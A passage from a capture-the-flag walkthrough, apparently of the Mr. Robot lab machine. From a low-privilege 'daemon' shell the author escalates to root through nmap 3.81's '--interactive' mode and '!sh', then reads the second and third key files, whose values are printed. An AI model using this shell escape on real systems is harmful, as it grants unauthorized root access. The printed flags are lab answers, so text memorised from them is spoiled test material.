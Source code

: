 ```bash
daemon@linux:/dev/shm$ nmap
nmap
bash: nmap: command not found
daemon@linux:/dev/shm$ cd /usr/local/bin
cd /usr/local/bin
daemon@linux:/usr/local/bin$ ./nmap --version
./nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Our binary is in the `--interactive` version range, so lets give the `nmap` jailbreak a go:

```bash
daemon@linux:/usr/local/bin$ ./nmap --interactive
./nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```

And now we can navigate back to the flag (no hash cracking required):

```
cd home
cd robot
ls
key-2-of-3.txt
password.raw-md5
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

I assume that MD5 hash might've also contained a clue as to the whereabouts of the final flag, but considering we are currently `root`, we can just run `find` from the root dir:
```bash
cd ../../../../
find -type f | grep "key-3-of-3.txt"
find: `./proc/23622/task/23622/fd/8': No such file or directory
find: `./proc/23622/task/23622/fdinfo/8': No such file or directory
find: `./proc/23622/fd/8': No such file or directory
find: `./proc/23622/fdinfo/8': No such file or directory
./root/key-3-of-3.txt
cat ./root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
